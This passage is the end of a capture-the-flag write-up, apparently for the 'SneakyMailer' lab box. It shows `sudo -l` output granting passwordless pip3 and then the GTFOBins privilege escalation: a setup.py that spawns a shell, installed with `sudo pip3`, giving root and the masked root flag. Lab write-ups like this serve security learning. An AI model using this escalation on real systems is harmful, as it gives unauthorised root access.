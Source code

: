 Checking out our sudo privileges using `sudo -l` results our next privilege escalation vector:

```shell
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

With reference to [**gtfo**](https://gtfobins.github.io/gtfobins/pip/) we can escalate to root:

```shell
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.naFm00Qgl3
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
#### Grabbing root.txt

```shell
# cat /root/root.txt
a311d05bde9ed4******************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
